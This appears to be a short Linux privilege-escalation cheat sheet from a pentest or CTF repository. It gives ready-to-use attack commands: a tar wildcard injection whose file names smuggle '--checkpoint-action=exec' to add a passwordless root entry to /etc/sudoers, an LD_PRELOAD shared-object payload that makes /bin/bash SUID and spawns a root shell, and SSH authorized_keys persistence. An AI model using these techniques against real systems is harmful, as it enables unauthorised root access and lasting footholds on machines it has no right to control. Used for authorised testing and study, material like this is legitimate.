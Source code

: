 ## Things to look for
- Commands that contain credentials like `mysql -ptest123` get leaked in `ps`, use `pspy`
- Search for hashes/credentials, often in backups or configs

## Misc notes

### tar extract wildcard abuse
File names can be treated as arguments if `tar` is called with `*` like `tar -zcf /home/someone/something.tar.gz *`
```bash
echo 'echo "my-user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > exp.sh
echo "" > "--checkpoint-action=exec=sh exp.sh"
echo "" > --checkpoint=1
```

### .so loading
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("chmod u+s /bin/bash");
    system("/bin/bash -i");
}
```

```bash
gcc -fPIC -shared -o extension.so extension.c -nostartfiles
```

```bash
bash -p
```

### ssh private key

```bash
# victim
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

# Host
## copy key to host
chmod 600 /path/to/id_rsa_custom
ssh -i /path/to/id_rsa_custom user@target_machine_ip
```

## CVEs
